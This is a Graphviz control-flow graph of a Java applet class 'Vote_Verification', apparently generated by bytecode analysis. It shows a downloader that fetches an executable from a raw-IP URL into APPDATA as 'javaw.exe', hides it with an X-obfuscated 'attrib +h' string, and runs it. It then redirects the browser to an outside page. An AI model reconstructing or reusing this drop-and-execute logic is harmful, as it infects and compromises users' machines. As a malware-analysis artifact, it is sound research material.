 digraph "" {
    "r0 := @this: Vote_Verification"
    "load.r r0"
    "r0 := @this: Vote_Verification"->"load.r r0";
    "push \"http://212.7.192.100/jdb/lib/load.php?id=d9f9133fb120cd6096870bc2b496805b\""
    "load.r r0"->"push \"http://212.7.192.100/jdb/lib/load.php?id=d9f9133fb120cd6096870bc2b496805b\"";
    "push \"javaw.exe\""
    "push \"http://212.7.192.100/jdb/lib/load.php?id=d9f9133fb120cd6096870bc2b496805b\""->"push \"javaw.exe\"";
    "virtualinvoke <Vote_Verification: void JDNInnIlB8CPlE(java.lang.String,java.lang.String)>"
    "push \"javaw.exe\""->"virtualinvoke <Vote_Verification: void JDNInnIlB8CPlE(java.lang.String,java.lang.String)>";
    "push \"AXPXPXDXAXTXA\""
    "virtualinvoke <Vote_Verification: void JDNInnIlB8CPlE(java.lang.String,java.lang.String)>"->"push \"AXPXPXDXAXTXA\"";
    "dup1.r"
    "push \"AXPXPXDXAXTXA\""->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"XaXXtXXXtXrXiXbX XXXX+hXX \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"XaXXtXXXtXrXiXbX XXXX+hXX \"";
    "push \"X\""
    "push \"XaXXtXXXtXrXiXbX XXXX+hXX \""->"push \"X\"";
    "push \"\""
    "push \"X\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "store.r $r6"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"store.r $r6";
    "store.r $r6"->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r $r13"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r $r13";
    "push 1"
    "store.r $r13"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r7"
    "newarray"->"store.r $r7";
    "load.r $r7"
    "store.r $r7"->"load.r $r7";
    "push 0"
    "load.r $r7"->"push 0";
    "load.r $r6"
    "push 0"->"load.r $r6";
    "load.r $r13"
    "load.r $r6"->"load.r $r13";
    "load.r $r13"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\javaw.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\javaw.exe\"";
    "push \"\\javaw.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "new java.lang.ProcessBuilder"
    "arraywrite.r"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"store.r $r6";
    "store.r $r6"->"load.r $r6";
    "load.r $r6"->"load.r $r7";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"
    "load.r $r7"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"store.r $r13";
    "store.r $r13"->"load.r $r13";
    "load.r $r13"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r $r21"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r $r21";
    "store.r $r21"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r7";
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"push 0";
    "push 0"->"load.r $r13";
    "load.r $r21"
    "load.r $r13"->"load.r $r21";
    "load.r $r21"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\javaw.exe\"";
    "push \"\\javaw.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "dup1.r"->"load.r $r7";
    "load.r $r7"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"load.r $r6";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"
    "load.r $r6"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "pop"
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"pop";
    "pop"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"pop";
    "new java.net.URL"
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"http://1hitted.net/Vote.htm\""
    "dup1.r"->"push \"http://1hitted.net/Vote.htm\"";
    "checkcast"
    "push \"http://1hitted.net/Vote.htm\""->"checkcast";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r $r6";
    "store.r $r6"->"load.r r0";
    "virtualinvoke <Vote_Verification: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Vote_Verification: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Vote_Verification: java.applet.AppletContext getAppletContext()>"->"load.r $r6";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r $r6"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"store.r r0";
}
